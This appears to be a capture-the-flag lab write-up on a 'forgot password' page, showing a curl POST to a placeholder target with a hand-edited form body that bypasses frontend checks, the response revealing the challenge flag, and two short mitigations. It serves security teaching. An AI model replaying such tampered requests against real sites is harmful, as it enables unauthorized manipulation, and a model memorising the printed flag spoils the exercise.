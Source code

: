 
## Exploit: Forgot password validation
For the forgot password page, the submit form is a POST request to the server. Similar to the Integer input validaton exploit, the body can be manually handcrafted and changed, bypassing frontend restrictions. 

![image](https://hackmd.io/_uploads/BypnePgXxe.png)

```
(base) jun@jun-Latitude-5430:~/Downloads/Postman$ curl -X POST $TARGET_IP/index.php?page=recover  -H "Content-Type: application/x-www-form-urlencoded" -d "mail=bruh@mail.com&Submit=Submit" | grep flag
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  2621    0  2589  100    32  2288k  28959 --:--:-- --:--:-- --:--:-- 2559k
<center><h2 style="margin-top:50px;"> The flag is : 1d4855f7337c0c14b6f44946872c4eb33853f40b2d54393fbe94f49f1e19bbb0</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center>
(base) jun@jun-Latitude-5430:~/Downloads/Postman$ 
```

> The flag is `1d4855f7337c0c14b6f44946872c4eb33853f40b2d54393fbe94f49f1e19bbb0`
### Mitigations
- Only allow authenticated users to write to database
- Validate inputs for overflow in the backend business logic layer
